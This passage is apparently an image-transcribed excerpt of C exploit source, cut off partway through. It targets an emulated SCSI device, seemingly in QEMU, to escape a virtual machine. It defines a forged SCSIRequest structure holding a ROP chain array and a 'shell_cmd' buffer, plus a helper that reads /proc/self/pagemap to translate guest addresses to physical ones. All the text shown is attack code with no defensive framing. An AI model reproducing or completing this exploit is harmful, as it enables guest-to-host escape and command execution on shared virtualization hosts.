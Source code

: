 ```
uint64_t pointer = 0;

struct req_head {
    u_int8_t target_id;
    u_int8_t target_bus;
    u_int8_t lun;
    u_int8_t pad;
    u_int32_t buf_len;
    u_int32_t type;
    u_int8_t data[0];
};
struct SCSIRequest
{
    u_int64_t bus;
    void* dev;
    void* ops;
    u_int32_t refcount;
    u_int32_t tag;
    u_int32_t lun;
    u_int32_t status;
    void* hba_private;
    size_t resid;
    u_int8_t cmd[0x30];
    void* cancel_notifiers;
    u_int8_t sense[252];
    u_int32_t sense_len;
    u_int8_t enqueued;
    u_int8_t io_canceled;
    u_int8_t retry;
    u_int8_t dma_started;
    void* aiocb;
    void* sg;
    void* tqe_next;
    void* tqe_prev;
    void* info;
    u_int64_t cancel;
    u_int64_t notify;
    u_int64_t next;
    u_int64_t rop[3];
    char shell_cmd[0x28]; // padded to same size as sizeof(SCSIDiskReq)
};

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

// See https://www.kernel.org/doc/Documentation/vm/pagemap.txt
uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;
    assert((virt & 0xfff) == 0);
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        die("open");
    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);
    
    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        die("read");
    assert(phys & (1ULL << 63));
```